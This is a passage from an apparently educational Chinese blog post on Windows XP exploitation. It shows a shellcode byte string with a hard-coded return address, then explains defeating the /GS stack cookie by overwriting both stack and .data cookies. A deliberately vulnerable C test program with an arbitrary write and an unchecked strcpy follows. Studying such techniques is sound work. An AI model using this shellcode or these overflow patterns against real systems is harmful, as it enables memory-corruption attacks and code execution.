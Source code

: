 ```c
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// shellcode_addr
"\xa0\xfe\x12";
```

这里使用的是shellcode的绝对地址`0x0012FEA0`，其实这样是不够优雅的（如果有一些跳板就好了，但是在异常发生时似乎也没有寄存器直接指向shellcode）。

测试：

![Bildschirmfoto 2018-08-08 um 6.48.07 PM.png]({{ site.url }}/images/0day/B46FF795147C7455B1443EB5C1E73997.png)

## 同时替换栈中和.data中的Cookie突破GS

正面突破GS的思路有两个：

- 猜测cookie
- 同时替换栈中和`.data`中的cookie

目前来说，第一种没有可行性。但是在特定环境下我们可以尝试第二种。当然，我们目前是针对单一技术的学习，所以不要考虑DEP/ASLR等无关紧要的东西。学习要一步一步来。

测试环境：Windows XP / Visual Studio 2008 / 禁用优化 / 开启GS / release版本。

测试代码：

```c
#include <string.h>
#include <stdlib.h>

char shellcode[] = "\x90...";

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i < 0x9995){
		char *buf = s + i;
		*buf = *src;
		*(buf + 1) = *(src + 1);
		*(buf + 2) = *(src + 2);
		*(buf + 3) = *(src + 3);
		strcpy(dest, src);
	}
}

void main()
{
	char *str = (char *)malloc(0x10000);
	test(str, 0xFFFF2FB8, shellcode);
}
```
